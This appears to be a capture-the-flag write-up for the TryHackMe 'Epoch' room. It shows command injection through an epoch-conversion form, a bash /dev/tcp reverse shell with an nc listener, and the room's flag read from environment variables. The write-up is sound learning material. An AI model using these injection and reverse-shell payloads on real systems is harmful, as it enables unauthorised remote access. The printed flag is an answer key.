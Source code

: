 # Epoch Walkthrough
### Link
- https://tryhackme.com/room/epoch
---

### Recon
- First, try to reach the machien http://[IP]. That is an EPOCH convert website.

From the disclaimer of this challenge, we have a reference to another room : command injection. So we can expect to use some injection pattern to find the flag.

- Second, try a basic conversion time
```
initial value : 123456789123
result : Sat Mar 11 00:32:03 UTC 5882
```

- Third, let's try to add a command like **whoami**
```
initial value : 123456789123;whoami
result : 
Sat Mar 11 00:32:03 UTC 5882
challenge
```

So we have the confirmation that we can inject command. From now, let's try to to a reverseshell to gain access to the targeted machine ^^

### Reverse Shell

- First, check the bash path
```
initial value : 123456789123;which bash
result :
Sat Mar 11 00:32:03 UTC 5882
/usr/bin/bash

```

Now we can try to find the appropriate command line to initiate the reverse shell. 

Visit the website [pentestmonkey](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet) and use the command under **Bash**
```
bash -i >& /dev/tcp/[IP]/[Port] 0>&1

```

- First, start the listener on your machine
```
nc -nlvp [Port]
```
- Second, use the command from [pentestmonkey](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)
```
/usr/bin/bash -i >& /dev/tcp/[IP local machine]/[Port] 0>&1
```
Result
```
challenge@e7c1352e71ec:~$ whoami
whoami
challenge
challenge@e7c1352e71ec:~$
```
- Third, Find the flag. For that , check the information provided in the room through the **HINT**
```
The developer likes to store data in environment variables, can you find anything of interest there?
```
So we must check the environment variables
```
challenge@e7c1352e71ec:~$ env
env
HOSTNAME=e7c1352e71ec
PWD=/home/challenge
HOME=/home/challenge
LS_COLORS=
GOLANG_VERSION=1.15.7
FLAG=flag{7da6c7debd40bd611560c13d8149b647}
SHLVL=2
PATH=/usr/local/go/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
_=/usr/bin/env
```

**Question**
#### Find the flag in this vulnerable web application!
**Answer** 
#### flag{7da6c7debd40bd611560c13d8149b647}
